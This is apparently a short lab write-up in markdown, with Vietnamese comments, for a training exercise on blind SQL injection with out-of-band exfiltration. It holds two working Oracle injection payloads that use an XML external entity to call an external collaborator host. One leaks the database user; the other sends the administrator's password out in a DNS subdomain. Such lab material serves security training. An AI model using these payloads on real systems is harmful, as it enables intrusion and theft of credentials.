

# Lab: Blind SQL injection with out-of-band data exfiltration

## Oracle OOB Payload (Detect DBMS)

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://waaagzm7v3uurv5vdy63quujdaj17rvg.oastify.com/'||(SELECT user FROM dual)||'"> %remote;]>'),'/l') FROM dual--
```

- Poll thành công -> DBMS là Oracle

## Oracle OOB Payload (Exfiltrate Data)

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username = 'administrator')||'.waaagzm7v3uurv5vdy63quujdaj17rvg.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

## Result


